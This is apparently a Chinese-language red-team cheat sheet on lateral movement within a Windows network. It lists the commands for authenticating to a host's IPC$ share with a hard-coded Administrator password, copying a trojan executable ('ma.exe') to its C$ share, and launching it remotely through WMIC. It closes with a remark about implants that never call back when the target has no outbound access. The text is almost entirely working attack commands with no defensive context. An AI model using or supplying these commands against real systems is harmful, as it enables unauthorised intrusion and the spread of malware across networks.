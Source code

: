 ## 0x00 碰见的横向移动方法总结（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\192.168.10.23\\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\192.168.10.23\\c$\\Windows\\Temp\\ma.exe
      
    VMIC远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
    
    如果发现很久没有上线，可能目标不出网
 
